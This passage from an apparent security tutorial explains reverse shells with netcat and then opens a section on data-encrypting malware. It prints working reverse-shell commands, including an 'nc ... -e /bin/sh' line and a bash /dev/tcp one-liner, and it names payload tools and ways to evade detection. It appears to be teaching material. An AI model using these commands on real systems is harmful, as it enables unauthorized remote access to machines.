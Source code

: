 A reverse shell is the inverse, the victim machine connecting the the 'hacker's' listener. This requires that some form of exploit is conducted, in order to run the arbitrary code required. This does mean passing an IP and port over the network, in order to establish a connection, however a combination of TLS and proxy chains could help avert this issue.

Netcat lets a threat actor set up connections between a host and a listener. There is the ability to also connect to any listener that is not nativity netcat based, which is referred to as banner grabbing, simply using nc on a IP port can do this. There are different implementations of netcat, such as nc and Nmap's ncat. \citep{Ncat} 

ncat -lvp 1234
nc 192.168.0.240 1234 -e cmd.exe or /bin/sh or whatever shell/program

Let’s say we have found a remote code execution (RCE) vulnerability on the target host. We can than issue the Netcat command with –e on the target host and initiate a reverse shell with Netcat to issue commands.

Alternate Tools \& One Liners:

\begin{tcblisting}{listing only}
bash -i >& /dev/tcp/<IP>/<port> 0>&1 - A one liner that can be injected into most UNIX systems to grant a shell.
MSFVenom - The Metasploit Framework payload creation tool, full of modules for different architectures that safe time so long as they are understood. 
Pwncat - A modern version of reverse shell technology, creates a C2 structure for better persistence, priv esc, stability, ease of use and control.
\end{tcblisting}

\citep{PentestMonkey}
\citep{MSFVenom}
\citep{Pwncat}


\section{Data Cryptors}
Data is our most valuable asset, with much of it being irreplaceable. This is true for both home and corporate users of technology. There is no feasible retaking of a deceased loved one's photo, or the re-collection of millions of customer records. This is the sad reality of what data cryptors target.
There are two main motivations for an attack of this kind, one in which access to given data is removed, often permanently. 

